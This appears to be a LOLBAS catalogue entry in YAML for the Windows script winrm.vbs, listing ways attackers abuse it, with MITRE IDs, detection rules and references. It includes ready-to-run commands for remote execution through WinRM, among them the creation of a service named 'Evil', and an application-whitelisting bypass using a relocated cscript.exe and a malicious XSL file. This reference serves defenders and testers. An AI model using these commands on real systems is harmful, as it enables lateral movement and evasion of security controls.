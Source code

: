 ```yaml
---
Name: winrm.vbs
Description: Script used for manage Windows RM settings
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: 'winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:http://target:5985'
    Description: Lateral movement/Remote Command Execution via WMI Win32_Process class over the WinRM protocol
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1216
    OperatingSystem: Windows 10, Windows 11
  - Command: 'winrm invoke Create wmicimv2/Win32_Service @{Name="Evil";DisplayName="Evil";PathName="cmd.exe /k c:\windows\system32\notepad.exe"} -r:http://acmedc:5985 && winrm invoke StartService wmicimv2/Win32_Service?Name=Evil -r:http://acmedc:5985'
    Description: Lateral movement/Remote Command Execution via WMI Win32_Service class over the WinRM protocol
    Usecase: Proxy execution
    Category: Execute
    Privileges: Admin
    MitreID: T1216
    OperatingSystem: Windows 10, Windows 11
  - Command: '%SystemDrive%\BypassDir\cscript //nologo %windir%\System32\winrm.vbs get wmicimv2/Win32_Process?Handle=4 -format:pretty'
    Description: Bypass AWL solutions by copying cscript.exe to an attacker-controlled location; creating a malicious WsmPty.xsl in the same location, and executing winrm.vbs via the relocated cscript.exe.
    Usecase: Execute arbitrary, unsigned code via XSL script
    Category: AWL Bypass
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\winrm.vbs
  - Path: C:\Windows\SysWOW64\winrm.vbs
Code_Sample:
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSScripts/Payload/Slmgr.reg
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSScripts/Payload/Slmgr_calc.sct
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_winrm_awl_bypass.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_winrm_execution_via_scripting_api_winrm_vbs.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/file/file_event/file_event_win_winrm_awl_bypass.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
Resources:
  - Link: https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  - Link: https://www.youtube.com/watch?v=3gz1QmiMhss
  - Link: https://github.com/enigma0x3/windows-operating-system-archaeology
  - Link: https://redcanary.com/blog/lateral-movement-winrm-wmi/
  - Link: https://twitter.com/bohops/status/994405551751815170
  - Link: https://posts.specterops.io/application-whitelisting-bypass-and-arbitrary-unsigned-code-execution-technique-in-winrm-vbs-c8c24fb40404
  - Link: https://www.fireeye.com/content/dam/fireeye-www/global/en/current-threats/pdfs/wp-windows-management-instrumentation.pdf
Acknowledgement:
  - Person: Matt Graeber
    Handle: '@mattifestation'
  - Person: Matt Nelson
    Handle: '@enigma0x3'
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Jimmy
    Handle: '@bohops'
  - Person: Red Canary Company cc Tony Lambert
    Handle: '@redcanaryco'
---
```

